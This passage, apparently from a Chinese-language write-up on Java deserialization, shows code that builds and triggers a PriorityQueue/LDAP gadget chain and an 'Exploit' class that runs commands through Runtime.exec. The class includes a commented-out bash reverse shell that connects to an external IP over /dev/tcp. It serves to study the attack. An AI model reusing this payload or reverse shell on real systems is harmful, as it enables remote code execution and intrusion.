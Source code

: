 ```java
                String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,
                comparator);
// stub data for replacement later
        setFieldValue(queue, "queue", new Object[]{ldapAttribute, ldapAttribute});
        setFieldValue(queue,"size",2);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20231012191922073](..\img\final\image-20231012191922073.png)

放一下Exploit的代码

```java
public class Exploit {
   public Exploit(){
       try{
           // 要执行的命令
           //String[] commands = {"bash","-c","exec 5<>/dev/tcp/101.42.224.57/12345;cat <&5 | while read line; do $line 2>&5 >&5; done"};
           String[] commands={"calc"};
           Process pc = Runtime.getRuntime().exec(commands);
           pc.waitFor();
      } catch(Exception e){
           e.printStackTrace();
      }
  }

   public static void main(String[] argv) {
       Exploit e = new Exploit();
```